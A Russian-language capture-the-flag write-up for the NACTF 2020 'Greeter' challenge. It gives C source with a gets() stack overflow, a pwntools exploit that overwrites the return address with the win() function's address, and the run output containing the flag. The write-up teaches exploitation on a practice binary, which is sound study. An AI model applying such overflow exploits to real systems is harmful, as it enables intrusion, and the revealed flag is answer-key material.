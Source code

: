 # Greeter writeup

Вначале изучим предоставленный в таске исходный код исполняемого файла:

```c
#include <stdio.h>
#include <stdlib.h>

void win() {
    puts("congrats! here's your flag:");
    char flagbuf[64];
    FILE* f = fopen("./flag.txt", "r");
    if (f == NULL) {
       puts("flag file not found!");
       exit(1);
    }
    fgets(flagbuf, 64, f);
    fputs(flagbuf, stdout);
    fclose(f);
}

int main() {
    /* disable stream buffering */
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char name[64];

    puts("What's your name?");
    gets(name);
    printf("Why hello there %s!\n", name);

    return 0;
}
```

Нашей целью будет являться вызов функции `win` на удалённом сервере, в которой происходит чтение файла с флагом. 

Как мы видим, в коде используется уязвимая функция `gets`, считывающая данные до символа переноса строки и, следовательно, позволяющая нам переполнить выделенный буфер.

Эксплуатацию уязвимости переполнения буфера на стеке будем производить в два этапа:
- сначала переполняем буфер до адреса возврата (отправляем в бинарный файл `72` байта мусора, так как под буфер `name` выделено `64` байта, а между буфером и указателем возврата на стеке находится только сохранённый регистр `RBP`);
- затем перезаписываем указатель вовзрата на адрес функции `win`, тем самым вызывая её выполнение.

Воспользуемся модулем `pwntools` для написания эксплойта:

```python3
#/usr/bin/env python3
from pwn import *

elf = ELF('./greeter')

p = remote('challenges.ctfd.io', 30249)

payload = b'A' * 72
payload += p64(elf.symbols['win']) # 0x401220

p.sendlineafter('\n', payload)
p.interactive()
```

Запускаем эксплойт:

```
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/NACTF 2020/greeter$ python3 greeter_exploit.py
[*] '/mnt/c/Users/Lenovo/Desktop/NACTF 2020/greeter/greeter'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.ctfd.io on port 30249: Done
[*] Switching to interactive mode
Why hello there AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA \x12!
congrats! here's your flag:
nactf{n4v4r_us3_g3ts_5vlrDKJufaUOd8Ur}
[*] Got EOF while reading in interactive
$
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/NACTF 2020/greeter
```
